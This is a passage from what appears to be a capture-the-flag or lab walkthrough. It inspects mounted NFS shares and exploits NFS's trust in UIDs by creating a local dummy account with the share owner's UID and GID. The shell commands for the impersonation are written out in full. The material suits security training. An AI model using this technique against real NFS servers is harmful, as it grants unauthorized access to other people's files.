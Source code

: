 ```sh-session
ls -ld /mnt/webshare/                                                        

drwxr-xr-- 5 2017 www-data 4096 Mar 14 09:45 /mnt/webshare/
```

### Investigating Ross' Share
Let's repeat the same process with Ross' share. Unlike the webshare, we have read access to Ross' home directory. Once again, make note of the owner's UID. It's time to exploit NFS. 

```sh-session
ls -la /mnt/ross                                                             

total 68
drwxr-xr-x 14 1001 1001 4096 Mar 14 09:30 .
drwxr-xr-x  6 root   root   4096 Mar 14 09:43 ..
lrwxrwxrwx  1 root   root      9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root   root      9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Mar 14 09:30 .Xauthority
-rw-------  1 1001 1001 2475 Mar 14 09:30 .xsession-errors
-rw-------  1 1001 1001 2475 Dec 27 10:33 .xsession-errors.old
```

# Exploiting NFS
We can exploit NFS because it does not keep track of machines only UIDs. Therefore, we can create dummy accounts on our host machine with UIDs that correspond to the owners of the shares and gain privileged access to them. 

Let's create our dummy account. Mine is called `webshare-squasher` but you can choose a better name for yours :wink:.

```sh-session
sudo useradd -m webshare-squasher
```
Let's give our user the proper UID and GID of 2017.

```sh-session
sudo usermod -u 2017 webshare-squasher && sudo groupmod -g 2017 webshare-squasher
```
We can then switch to our dummy user,

```sh-session
sudo su webshare-squasher
```
